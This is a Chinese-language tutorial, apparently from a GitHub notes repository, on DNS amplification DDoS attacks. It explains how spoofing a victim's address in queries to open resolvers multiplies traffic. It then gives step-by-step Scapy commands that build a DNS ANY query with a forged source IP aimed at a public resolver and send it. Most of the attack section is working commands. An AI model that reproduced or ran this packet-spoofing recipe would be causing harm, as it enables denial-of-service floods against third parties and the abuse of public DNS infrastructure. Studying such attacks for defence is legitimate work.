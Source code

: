 
# DNS 放大攻击
* 简介
* 攻击
* Scapy 构造攻击数据包原理
* 构造数据包过程

    

## 简介
* 产生大流量的攻击方法
    * 单机的带宽优势
    * 巨大单机数量形成的流量汇聚
    * 利用协议特性实现放大效果的流量
* DNS协议放大效果
    * 查询请求流量小，但响应流量可能非常巨大
    * dig ANY hp.com @202 106.0.20 (流量放大约8倍)
* 攻击原理
    * 伪造源地址为被攻击目标地址，向递归域名查询服务器发起查询
    * DNS服务器成为流量放大和实施攻击者，大量DNS服务器实现DDOS

## 攻击
``` 
// 发送60字节长度，返回216字节长度
   
root@kali:~# dig any baidu.com @114.114.114.114

```

## Scapy 构造攻击数据包原理
* IP/UDP/DNS/DNS 查询内容
  
* 结合IP地址欺骗，利用大量 DNS 服务器做傀儡攻击目标
  
## 构造数据包过程


* 构造 IP 数据包
``` 
>>> i=IP()
>>> i.display()

```  
```
>>> i.dst="114.114.114.114"
>>> i.display()
```

* 构造 UDP 数据包
``` 
>>> u=UDP()
>>> u.display()

```  
* 构造 DNS 数据包
  
``` 
>>> d=DNS()
>>> d.display()

```

``` 
>>> d.rd=1
>>> d.qdcount=1
>>> d.display()

```

* 设置查询目标
``` 
>>> q=DNSQR()
>>> q.display()

```  

``` 
>>> q.qname='qq.com'
>>> q.qtype=255   #（代表any）

```

``` 
>>> d.qd=q   # 设置目标
>>> d.display()

```

* 拼接数据包
``` 
>>> r=(i/u/d)
>>> r

```

``` 
>>> r.display()
>>> sr1(r)

```

``` 
>>> i.src="10.10.10.141"
>>> r=(i/u/d)
>>> r.display()

```

* 发送数据包
``` 
>>> send(r)

```  
